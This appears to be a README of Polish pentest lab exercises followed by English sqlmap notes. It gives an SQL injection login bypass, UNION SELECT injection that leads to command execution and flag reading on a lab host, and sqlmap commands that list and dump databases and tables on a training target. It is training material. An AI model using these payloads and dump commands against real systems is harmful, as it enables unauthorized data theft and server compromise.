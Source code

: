## Ćwiczenia studia Pentest
### Logowanie
Wejdź na stronę: http://192.168.100.60/  
Wykonaj atak SQL Injection w panelu logowania.
Przykładowa nazwa użytkownika (hasło dowolne):  
`' or 1=1-- x`

### Zawartość bazy danych
Do wyświetlenia całej zawartości bazy danych można użyć narzędzia sqlmap.  
Na wszystkie pytania należy odpowiadać wartością domyślną (enter).

`sqlmap -u http://192.168.100.60 --forms --dbs #wyświetli nazwy baz danych`
`sqlmap -u http://192.168.100.60 --forms -D pentest-dump-all #wyświetli zawartość bazy`

### RCE
Baza danych przechowuje komendy bash, które serwer może wykonać.  
Po zalogowaniu, wykonaj atak `UNION SELECT`, w celu zwrócenia z zapytania komendy `"id"` (która nie istnieje w bazie w jako rekord).  
Przykład (należy zgadnąć liczbę kolumn np. za pomocą prób i błędów):  
```
123-- x
123 union select 'id'-- błąd
123 union select 'id','id'-- błąd
123 union select 'id','id','id'-- działa
```

### Flaga
Za pomocą podatności typu RCE, wylistuj pliki w aktualnym katalogu i odczytaj flagę.
Zamiast `id` wykorzystaj `ls` i `cat nazwaplikuzflagą.txt`:  
`192.168.100.60/?id=123 union select 'ls','ls','ls'--`
___
## SQLmap
### GET
SQLMap is an automated tool for detecting and exploiting SQL injection vulnerabilities in web applications.  
To use SQLMap, you open a terminal in Linux and run commands with different flags. The `--wizard` flag provides an interactive guide, making it beginner-friendly.  
```bash
sqlmap --wizard
```
`--dbs` extracts all the databases names  
`-D database_name --tables` extracts information about the tables  
`-D database_name -T table_name --dump` to enumerate records in those tables  

To find a vulnerable URL, look for web applications using GET parameters, such as `http://sqlmaptesting.thm/search?cat=1`. These parameters retrieve data and may be exploitable. Use SQLMap with the `-u` flag to test for SQL injection, a method known as HTTP GET-based testing.  
`sqlmap -u http://sqlmaptesting.thm/search/cat=1`  
To fetch the databases:  
`sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs` result users  
To fetch users tables:  
`sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables`  result thomas  
To fetch record present in thomas table:  
` sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D users -T thomas --dump`  

